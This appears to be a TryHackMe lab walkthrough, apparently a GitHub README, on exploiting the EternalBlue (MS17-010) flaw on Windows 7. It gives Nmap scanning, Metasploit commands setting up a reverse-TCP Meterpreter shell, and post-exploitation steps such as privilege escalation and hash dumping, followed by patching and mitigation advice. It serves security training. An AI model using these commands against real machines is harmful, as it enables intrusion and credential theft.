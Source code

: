 # Exploiting Windows 7 with smb-vuln-ms17-010.nse on TryHackMe:

# Understanding MS17-010 (EternalBlue):

EternalBlue is a vulnerability in the Server Message Block (SMB) protocol that was exploited by the NSA and later leaked by the Shadow Brokers. Microsoft patched this vulnerability in March 2017 with the MS17-010 update. The vulnerability allows for remote code execution on vulnerable Windows systems.


# Step-by-Step Guide:

1. Scanning for Vulnerable Machines
Identify IP Address: Obtain the IP address of the target Windows 7 machine.

Use Nmap to scan for SMB:

* nmap -p 445 --script=smb-vuln-ms17-010 <Target-IP>

This will check if port 445 (SMB) is open and whether the target is vulnerable to MS17-010.

2. Setting Up Metasploit

Open Metasploit: On Kali Linux, open the terminal and start Metasploit:Search for the EternalBlue exploit:

* search eternalblue

Use the correct exploit module:

* use exploit/windows/smb/ms17_010_eternalblue


3. Configuring the Exploi:

Set the Target IP:

* set RHOSTS <Target-IP>

Set the Payload:

* set payload windows/x64/meterpreter/reverse_tcp

Set Local Host (Your Kali IP):

* set LHOST <Your-Kali-IP>


4. Exploiting the Vulnerability

Run the Exploit:

If successful, you will get a Meterpreter session, which is a powerful shell that allows you to control the target machine.

5. Post-Exploitation

System Information: Retrieve system info:

* sysinfo

Privilege Escalation: Check and elevate privileges if necessary:

 * getsystem

Interacting with the Target: Dump password hashes, capture screenshots, etc.

6. Clean Up
Terminate Sessions: Make sure to clean up by terminating any active sessions:

* exit

Close Metasploit:

* exit

# Mitigation & Prevention:

To protect against EternalBlue and similar vulnerabilities:

Apply Patches: Ensure that MS17-010 and other critical updates are applied.
Disable SMBv1: Consider disabling SMBv1 on all systems.
Network Segmentation: Isolate critical systems from the rest of the network.
Use Firewalls: Block unnecessary ports, such as 445, at the network perimeter.
Remember, this knowledge is intended to help secure systems and understand vulnerabilities. Unauthorized exploitation is illegal and unethical.




